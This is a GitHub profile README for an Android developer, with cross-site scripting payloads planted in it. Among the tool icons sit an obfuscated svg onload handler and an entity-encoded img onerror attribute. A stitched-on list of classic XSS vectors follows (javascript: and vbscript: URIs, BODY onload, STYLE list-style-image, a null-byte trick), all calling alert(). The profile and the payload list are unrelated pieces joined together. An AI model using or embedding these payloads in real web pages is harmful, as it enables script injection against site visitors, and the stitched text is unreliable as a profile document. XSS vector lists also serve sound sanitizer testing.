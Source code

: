 <h1 align="center">Hi 👋, I'm ahmed El-ganiny</h1>
<h3 align="center">A passionate Android developer from Egypt</h3>

<p align="left"> <a href="https://twitter.com/ahmedelg7" target="blank"><img src="https://img.shields.io/twitter/follow/ahmedelg7?logo=twitter&style=for-the-badge" alt="ahmedelg7" /></a> </p>

- 🌱 I’m currently learning **Flutter & Pentesting Mobile**

- 💬 Ask me about **android**

- 📫 How to reach me **ahmmh777@gmail.com**

<h3 align="left">Connect with me:</h3>
<p align="left">
<a href="https://twitter.com/ahmedelg7" target="blank"><img align="center" src="https://cdn.jsdelivr.net/npm/simple-icons@3.0.1/icons/twitter.svg" alt="ahmedelg7" height="30" width="40" /></a>
<a href="https://linkedin.com/in/ahmed-mohamed-90b84b197" target="blank"><img align="center" src="https://cdn.jsdelivr.net/npm/simple-icons@3.0.1/icons/linkedin.svg" alt="ahmed-mohamed-90b84b197" height="30" width="40" /></a>
<a href="https://fb.com/ammad.mahmad" target="blank"><img align="center" src="https://cdn.jsdelivr.net/npm/simple-icons@3.0.1/icons/facebook.svg" alt="ammad.mahmad" height="30" width="40" /></a>
</p>

<h3 align="left">Languages and Tools:</h3>
<p align="left"> <a href="https://developer.android.com" target="_blank"> <img src="https://devicons.github.io/devicon/devicon.git/icons/android/android-original-wordmark.svg" alt="android" width="40" height="40"/> </a> <a href="https://www.w3schools.com/cs/" target="_blank"> <img src="https://devicons.github.io/devicon/devicon.git/icons/csharp/csharp-original.svg" alt="csharp" width="40" height="40"/> </a> <a href="https://dart.dev" target="_blank"> 
  <img src="https://www.vectorlogo.zone/logos/dartlang/dartlang-icon.svg" alt="dart" width="40" height="40"/> </a> <a href="https://firebase.google.com/" target="_blank">
  <img src="https://www.vectorlogo.zone/logos/firebase/firebase-icon.svg" alt="firebase" width="40" height="40"/> </a> <a href="https://flutter.dev" target="_blank">
  <img src="https://www.vectorlogo.zone/logos/flutterio/flutterio-icon.svg" alt="flutter" width="40" height="40"/> </a> <a href="https://git-scm.com/" target="_blank">
  <img src="https://www.vectorlogo.zone/logos/git-scm/git-scm-icon.svg" alt="git" width="40" height="40"/> </a> <a href="https://www.java.com" target="_blank">
  <img src="https://devicons.github.io/devicon/devicon.git/icons/java/java-original-wordmark.svg" alt="java" width="40" height="40"/> </a> 
  <a href="https://kotlinlang.org" target="_blank">
   <img src="https://www.vectorlogo.zone/logos/kotlinlang/kotlinlang-icon.svg" alt="kotlin" width="40" height="40"/> </a> 
  <a href="https://www.linux.org/" target="_blank"> 
   <img src="https://devicons.github.io/devicon/devicon.git/icons/linux/linux-original.svg" alt="linux" width="40" height="40"/> </a>
  <svg/onload='+/"/+/onmouseover=1/+/[*/[]/+alert(1)//'>
  <a href="https://postman.com" target="_blank">
   <img src="https://www.vectorlogo.zone/logos/getpostman/getpostman-icon.svg" alt="postman" width="40" height="40"/> </a>
  <a href="https://www.python.org" target="_blank">
  <img src="https://devicons.github.io/devicon/devicon.git/icons/python/python-original.svg" alt="python" width="40" height="40"/> </a> 
  <a href="https://www.sketch.com/" target="_blank"> 
  <img src="https://www.vectorlogo.zone/logos/sketchapp/sketchapp-icon.svg" alt="sketch" width="40" height="40"/> </a> 
  <a href="https://www.sqlite.org/" target="_blank">
  <img src="https://www.vectorlogo.zone/logos/sqlite/sqlite-icon.svg" alt="sqlite" width="40" height="40"/> </a> 
  <a href="https://www.adobe.com/products/xd.html" target="_blank"> <img src="https://cdn.worldvectorlogo.com/logos/adobe-xd.svg" alt="xd" width="40" height="40"/> </a> </p>
<p>
  <img align="center" src="https://github-readme-stats.vercel.app/api/top-langs?username=ahmed777-android&show_icons=true&locale=en&layout=compact" alt="ahmed777-android" />
</p>
  <img src="wordmark.svg" alt="java" &#x26;&#x23;&#x78;&#x36;&#x66;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x65;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x35;&#x3b;&#x26;&#x23;&#x78;&#x37;&#x32;&#x3b;&#x26;&#x23;&#x78;&#x37;&#x32;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x66;&#x3b;&#x26;&#x23;&#x78;&#x37;&#x32;&#x3b;&#x26;&#x23;&#x78;&#x33;&#x64;&#x3b;&#x26;&#x23;&#x78;&#x37;&#x34;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x66;&#x3b;&#x26;&#x23;&#x78;&#x37;&#x30;&#x3b;&#x26;&#x23;&#x78;&#x35;&#x62;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x31;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x63;&#x3b;&#x26;&#x23;&#x78;&#x37;&#x34;&#x3b;&#x26;&#x23;&#x78;&#x32;&#x62;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x63;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x31;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x65;&#x3b;&#x26;&#x23;&#x78;&#x36;&#x37;&#x3b;&#x26;&#x23;&#x78;&#x35;&#x64;&#x3b;&#x26;&#x23;&#x78;&#x32;&#x38;&#x3b;&#x26;&#x23;&#x78;&#x33;&#x30;&#x3b;&#x26;&#x23;&#x78;&#x32;&#x39;&#x3b;
  width="40" height="40"/> </a>
<IMG SRC =  &#x6A&#x61&#x76&#x61&#x73&#x63&#x72&#x69&#x70&#x74&#x3A&#x61&#x6C&#x65&#x72&#x74&#x28&#x27&#x58&#x53&#x53&#x27&#x29  >
  perl -e 'print "<IMG SRC=java\0script:alert(\"XSS\")>";' > out

<BODY onload!#$%&()*~+-_.,:;?@[/|\]^`=alert("XSS")>
<<SCRIPT>alert("XSS");//\<</SCRIPT>

</TITLE><SCRIPT>alert("XSS");</SCRIPT>

<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">


<BODY BACKGROUND="javascript:alert('XSS')">

INPUT Image
<INPUT TYPE="IMAGE" SRC="javascript:alert('XSS');">

BODY Image
<BODY BACKGROUND="javascript:alert('XSS')">

IMG Dynsrc
<IMG DYNSRC="javascript:alert('XSS')">

IMG Lowsrc
<IMG LOWSRC="javascript:alert('XSS')">

List-style-image
Fairly esoteric issue dealing with embedding images for bulleted lists. This will only work in the IE rendering engine because of the JavaScript directive. Not a particularly useful cross site scripting vector:

<STYLE>li {list-style-image: url("javascript:alert('XSS')");}</STYLE><UL><LI>XSS</br>

VBscript in an Image
<IMG SRC='vbscript:msgbox("XSS")'>

Livescript (older versions of Netscape only)
<IMG SRC="livescript:[code]">

SVG Object Tag
<svg/onload=alert('XSS')>

